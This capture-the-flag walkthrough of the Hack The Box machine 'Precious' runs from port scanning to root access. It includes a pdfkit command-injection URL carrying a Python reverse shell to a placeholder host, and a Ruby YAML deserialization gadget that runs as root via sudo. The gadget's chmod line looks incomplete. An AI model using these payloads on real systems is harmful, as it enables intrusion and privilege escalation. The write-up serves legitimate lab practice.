  ![image](https://user-images.githubusercontent.com/87700008/205619578-28e109d5-9ede-4b75-95c0-fb74bc635c26.png)

https://app.hackthebox.com/machines/Precious

**Enumeration**:

_Rustscan_:

Started with a qucik Rustscan, found 3 open ports :

![image](https://user-images.githubusercontent.com/87700008/205620631-e8bad937-e8da-432e-b776-fab52239c64b.png)


    sudo rustscan -a 10.10.11.189 -- -A -T4 -vv -oN precious_nmap
    
    Open 10.10.11.189:22
    Open 10.10.11.189:80
    Open 10.10.11.189:8000
    
In the scan results there is a domain observed, i.e. http://precious.htb/

![image](https://user-images.githubusercontent.com/87700008/205621054-4212556d-c02c-4eeb-b170-41b379915db7.png)

So, to consolidate all results:

    On ports 80, nginx/1.18.0 is running
    On port 8000, SimpleHTTPServer 0.6 (Python 3.9.2) is running
    
Added the domain to the /etc/hosts file. After adding the domain browsed through that domain & found there is a website running to convert web page to PDF.
![image](https://user-images.githubusercontent.com/87700008/205623888-22706343-617f-434a-aec1-f55a1e35af90.png)

_Gobuster:_

Scanned the subdomain & vhost using gobuster but nothing found in both the scans:

![image](https://user-images.githubusercontent.com/87700008/205679805-8aa80909-6b18-4a91-ad67-c7b4896bae5d.png)
![image](https://user-images.githubusercontent.com/87700008/205679904-2647b99f-613f-4905-b878-5c9a297929c6.png)

As I didn't get any result from the gobuster scanning I tried some manual enumertaion & checked for the html source but nothing found there are well.😕

Then I thought to play with the webpage & started my own SimpleHttpServer on port 80 & in the parameter part I gave my own http server IP & clicked on submit.
Then the page redirected me to the PDF page of my directory :

![image](https://user-images.githubusercontent.com/87700008/205709502-88986f4c-3997-4ca4-a08c-ce4d9972df65.png)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------

**Initial access:**

I downloaded the file from the page & checked for the metadata where I found the creator as "Generated by pdfkit v0.8.6":
![image](https://user-images.githubusercontent.com/87700008/205710041-713e2058-ed8f-45d4-9302-dd02e32798b1.png)
![image](https://user-images.githubusercontent.com/87700008/205710140-e3420cfd-24ae-443f-891b-4ca04621ff29.png)

I quickly searched for the exploit of "pdfkit 0.8.6" & landed on the page of an article with the PoC pubished by snyk mentioning the command injection vulnerability in the versions lower than 0.8.7, ref : https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
![image](https://user-images.githubusercontent.com/87700008/205710574-556b8712-4458-49f9-94fc-d3af74763033.png)

So as per the article I tried the exploit from myself in this webpage & it's working :

![image](https://user-images.githubusercontent.com/87700008/205711050-746a9e5b-fbff-470e-a021-0cde0a578a0f.png)
![image](https://user-images.githubusercontent.com/87700008/205711105-ae626667-8af6-4d4e-8b58-cfb0d1506e9b.png)
 
 At this point we are confirmed that the page is vulnerbale to the command injection vulnerability.

 I tried different payload here for reverse shell & python3 payload worked for me :
 
    http://IP/?name='%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

And I received the reverse shell :

![image](https://user-images.githubusercontent.com/87700008/205716608-5fa1a95c-a9ef-4fe5-91ba-37f75d7e0828.png)

Stablized the reverse shell:

    python3 -c 'import pty;pty.spawn("/bin/bash")'
    export term=XTERM
    stty raw -echo; fg 
    
After searching many directories I found a directory located in ruby user folder name : '.bundle' in which I found another user 'henry' credentials:

![image](https://user-images.githubusercontent.com/87700008/205719193-a3d77efd-1d3e-402f-af69-3cfbdcf03a2e.png)

_User flag_ :

Using those credentials I quickly tried SSH & logged in successfully & retrieved the user flag 🙂(pwn3d!)

![image](https://user-images.githubusercontent.com/87700008/205719767-ab5f9b34-0345-4c98-a65e-9659b8be91d9.png)
![image](https://user-images.githubusercontent.com/87700008/205719911-4e5caa98-3a16-49f9-ac23-0d8f0b7780c9.png)

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------

**Priv Esc:**

Now, as always I started with the manual enumeration & ran 'sudo -l', I got this :

    User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
    
Then I checked for the file content present in '/opt/update_dependencies.rb'. I am confused here at this point as there isn't anything present here whhich looks much helpful. 
Then with lot of searching I found a blog where it's mentioned some flaw in "Yaml.load" parameter which is also available in our file :

![image](https://user-images.githubusercontent.com/87700008/205723673-9d35da55-4701-4d33-be5b-50899f708684.png)
ref : https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

This is vulnerable to "Yaml deserialization" attack:
![image](https://user-images.githubusercontent.com/87700008/205724218-37fec72d-5e49-40c9-b2d6-b6e56816cb6b.png)

I also found a PoC, ref : https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml
So, I created a file name 'dependencies.yml' & used this code taken from the PoC :

    - !ruby/object:Gem::Installer
    i: x
    - !ruby/object:Gem::SpecFetcher
    i: y
    - !ruby/object:Gem::Requirement
    requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod 4777"
         method_id: :resolve

_Root flag:_

And, ran the command :

    sudo /usr/bin/ruby /opt/update_dependencies.rb
    /bin/bash -p
    
This provided us the bash shell with root access 🙂(pwn3d!)

![image](https://user-images.githubusercontent.com/87700008/205726452-39f4a812-6e1c-41b0-b8db-f4b09089985f.png)
